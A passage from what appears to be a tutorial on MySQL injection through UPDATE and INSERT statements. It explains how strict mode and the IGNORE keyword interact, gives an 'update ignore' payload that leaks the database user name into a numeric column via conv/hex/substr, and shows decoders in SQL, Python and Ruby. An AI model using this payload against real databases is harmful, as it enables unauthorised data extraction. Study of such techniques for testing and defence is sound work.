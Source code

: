     
    <code>mysqld.exe --help --verbose
    </code>


You can create a new file as ‘myfile.ini’ and give this file as the default configuration for MySQL.

    
    <code>mysqld.exe --defaults-file=myfile.ini
    </code>


The content in your configuration.

[mysqld]
sql-mode=
If a developer uses the ‘IGNORE’ keyword, the ‘Strict Mode’ is ignored. We can use like ‘INSERT IGNORE’ or ‘UPDATE IGNORE’.
Under ‘Strict Mode’ if you run this statement, it will execute successfully.

    
    <code>mysql> update ignore users set username = 'osanda' | conv(hex(substr(user(),1 + (1-1) * 8, 8 * 1)),16, 10) where id=14;
    
    Query OK, 1 row affected, 1 warning (0.30 sec)
    Rows matched: 1  Changed: 1  Warnings: 1
    </code>


Decoding
Here are some methods you can use in decoding the values in these languages.


### SQL



    
    <code>select unhex(conv(value, 10, 16));
    </code>




### Python



    
    <code>dec = lambda x:("%x"%x).decode('hex')
    </code>




### Ruby



    
    <code>dec = lambda { |x| puts x.to_s(16).scan(/../).map { |x| x.hex.chr }.join }
    </code>


Ruby is an amazing language. Here’s another hacky way of doing this.
